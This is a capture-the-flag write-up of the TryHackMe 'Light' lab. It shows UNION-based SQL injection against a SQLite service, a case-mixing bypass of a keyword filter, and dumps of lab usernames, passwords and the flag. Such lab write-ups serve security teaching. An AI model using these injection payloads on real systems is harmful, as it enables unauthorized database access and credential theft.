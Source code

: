 # TryHackMe - Light Machine Write-Up

## Overview

The **Light** machine on TryHackMe is a beginner-friendly challenge that involves SQL injection on a custom database service running on a remote port. The exploitation focuses on SQLite and classic UNION-based injection techniques to extract usernames, passwords, and the final flag.

---

## Target Information

- **IP Address**: `10.10.243.206`
- **Port**: `1337`
- **Service**: Custom database interface via `netcat`
- **Technology**: SQLite 3.31.1

---

## Phase 1: Initial Access

### Connection

No need for Nmap or scanning. The connection is opened directly using `netcat`:

```bash
nc 10.10.243.206 1337
```

You are greeted with:

```
Welcome to the Light database!
Please enter your username: 
```

### Default Credentials Attempt

Entering valid-looking credentials returns a password, but loops:

```
Username: smokey
Password: vYQ5ngPpw8AdUmL
```

This behavior hints at possible **SQL injection**.

---

## Phase 2: SQL Injection

### Injection Discovery

Trying the following reveals a SQL error, confirming injection is possible:

```
Input: admin'
Output: Error: unrecognized token: "'admin'' LIMIT 30"
```

### Bypassing Filters

Simple payloads were blocked, but case manipulation worked:

```sql
' UniOn SeLeCt 1 '
```

This indicates the input is filtered, but not normalized — SQL keywords can be obfuscated with case mixing.

---

## Phase 3: Database Enumeration

### Determine SQLite Version

```sql
' UniOn SeLeCt sqlite_version() '
```

**Output**:

```
Password: 3.31.1
```

---

### List Tables

Query the `sqlite_master` table:

```sql
' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
```

**Output**:

```
Password: CREATE TABLE usertable (...), CREATE TABLE admintable (...)
```

**Identified Tables**:

- `usertable`
- `admintable`

---

## Phase 4: Data Extraction

### Extract Usernames

```sql
' UniOn SeLeCt group_concat(username) FROM usertable '
```

**Output**:

```
alice,rob,john,michael,smokey,hazel,ralph,steve
```

### Extract Passwords

Then query each user individually:

```sql
Username: alice
Password: tF8tj2o94WE4LKC

Username: rob
Password: yAn4fPaF2qpCKpR

Username: john
Password: e74tqwRh2oApPo6

Username: michael
Password: 7DV4dwA0g5FacRe

Username: hazel
Password: EcSuU35WlVipjXG

Username: ralph
Password: YO1U9O1m52aJImA

Username: steve
Password: WObjufHX1foR8d7
```

### Extract Admin Table

**Query Passwords**:

```sql
' UniOn SeLeCt group_concat(password) FROM admintable '
```

**Output**:

```
mamZtAuMlrsEy5bp6q17,THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

**Query Usernames**:

```sql
' UniOn SeLeCt group_concat(username) FROM admintable '
```

**Output**:

```
TryHackMeAdmin,flag
```

---

## Flags

- **User Flag**: `vYQ5ngPpw8AdUmL` (smokey's password)
- **Root/Admin Flag**: `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## Conclusion

This machine demonstrated the power and simplicity of UNION-based SQL injection on a filtered SQLite interface. Obfuscating reserved words helped bypass filtering, and `sqlite_master` revealed the full DB structure.

---

## References

- [PayloadsAllTheThings - SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
